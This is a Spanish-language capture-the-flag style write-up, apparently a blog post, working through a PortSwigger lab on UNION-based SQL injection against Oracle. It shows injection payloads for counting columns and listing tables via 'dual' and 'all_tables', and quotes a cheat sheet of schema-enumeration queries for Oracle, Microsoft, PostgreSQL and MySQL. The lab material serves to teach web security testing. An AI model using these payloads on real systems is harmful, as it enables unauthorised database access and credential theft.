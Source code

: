 Para resolver el laboratorio, inicie sesión como `administrator`usuario.

Para este reto debemos realizar un proceso similar al anterior, solo que esta vez la base de datos es Oracle y nos da una pista:

En las bases de datos de Oracle, cada `SELECT`declaración debe especificar una tabla para seleccionar `FROM`. Si su `UNION SELECT`ataque no consulta desde una tabla, deberá incluir la `FROM`palabra clave seguida de un nombre de tabla válido.

Hay una tabla incorporada en Oracle llamada `dual`que puede usar para este propósito. Por ejemplo:`UNION SELECT 'abc' FROM dual`

Para obtener más información, consulte nuestra [hoja de trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Lo primero que debemos hacer como en todos los laboratorios hasta este momento es, ver cuantas columnas nos devuelve la consulta y cuantas de ellas son de tipo string, realizando la siguiente inyección '+UNION+SELECT+'test','test'+FROM+dual— vemos que nos dice que la petición tiene 2 columnas y que ambas son de tipo string

![8.1.png](/assets/images/2022-05-10-Examining_the_database_in_SQL_injection_attacks_Portswigger/8.1.png)

Ahora veremos la  para ver como podemos solicitar las tablas de la base de datos en Oracle

```abap
Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

Oracle	      SELECT * FROM all_tables
              SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft	    SELECT * FROM information_schema.tables
              SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL	  SELECT * FROM information_schema.tables
              SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL	        SELECT * FROM information_schema.tables
              SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

Realizamos la siguiente inyección  '+UNION+SELECT+table_name,NULL+FROM+all_tables— y vemos que esta nos devuelve las tablas de la base de datos 

